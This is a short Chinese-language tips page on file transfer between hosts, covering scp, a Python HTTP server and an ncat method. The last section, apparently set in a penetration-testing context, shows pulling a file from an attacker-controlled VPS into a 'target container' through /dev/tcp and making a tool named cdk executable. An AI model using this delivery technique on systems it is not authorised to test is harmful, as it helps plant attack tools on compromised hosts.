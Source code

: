```yaml
---
categories: [一些技巧]
tags: [文件共享]
---
```


# 2023.05.20

## 0x01 文件共享

### 1.1 scp

scp 是一个 Linux 命令，它用于在两台主机之间安全地复制文件或目录。它使用**SSH 协议**进行数据传输，因此需要 SSH 密钥或密码进行身份验证。

scp 命令的基本语法是：

```bash
scp [option] sourceFile targetFile
```

本地主机或远程主机上的路径，格式为：
源文件和目标文件可以是<code>[user@]host:file</code>

例如，需要传输文件至公网服务器则可以使用如下命令：

```bash
scp filename root@server_ip:/target_directory #随后输入ssh密码
```
### 1.2 http服务
```bash
# python启动一个http服务，使得其他机器可以下载本机文件
python -m SimpleHTTPServer <port>
```
### 1.3 ncat
在机器可出网的情况下，机器自身可能并不包含一些例如`wget`、`curl`或`nc`的指令，此时可以利用远程vps的`nc`指令进行文件投递。具体操作如下：
```bash
#远程vps
nc -lvp <port> < <filename>

#目标容器
cat < /dev/tcp/<ip>/<port> > <filename>
chmod a+x cdk
```
